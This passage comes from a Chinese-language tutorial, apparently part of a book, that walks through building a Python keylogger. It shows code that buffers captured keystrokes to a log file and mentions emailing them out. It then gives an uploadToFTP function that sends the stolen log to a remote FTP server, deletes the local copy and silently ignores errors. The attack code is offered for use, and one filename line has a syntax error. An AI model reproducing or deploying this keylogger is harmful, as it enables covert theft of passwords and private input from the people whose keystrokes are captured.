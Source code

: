 ```py

        # Add new keystrokes to buffer 
        buffer+=keylogs 

        # Write the buffer to log file 
        f.write(buffer) 
        # close the log file 
        f.close() 

```

现在，当日志文件中有 1000 个字符时，这将把按键发送到指定的电子邮件 ID。同样，我们可以添加一个方法将文件上传到 FTP 服务器。在这里，我们必须导入`ftplib`模块和`os`模块：

```py
import ftplib 
import os 

```

然后，定义将文件上传到 FTP 服务器的方法

```py
def uploadToFTP(data,to): 
    # Write data to a file 
    fileName="log-"+str(datetime.datetime.now()+".txt" 
    logFile=open(fileName,"a") 
    logFile.write(data) 
    logFile.close() 

    try: 
        # Provide FTP server address 
        server = 'yourdomain.com' 
        # Your FTP username 
        username = 'keylogger' 
        # Your FTP password 
        password = 'asd123' 
        # SSL state, set 1 if SSL enabled in server 
        SSL = 0 
        # FTP Directory to upload the file 
        directory = "/"  
        # Create normal FTP connection If SSL disabled 
        if SSL==0: 
            connection=ftplib.FTP(server,username,password) 
        # Create SSL enabled FTP connection 
        elif SSL==1: 
            connection=ftplib.FTP_TLS(server,username,password) 

        # Change directory in FTP connection 
        connection.cwd(directory) 
        # Open the log file 

        logFile=open(fileName,'rb') 
        # Upload the file to FTP server 
        connection.storbinary('STOR' +' '+fileName,logFile) 
        # Close the FTP connection 
        connection.quit() 
        # Close the log file 
        logFile.close() 
        # Delete the temporary log file 
        os.remove(fileName) 
    except: 
        pass
```

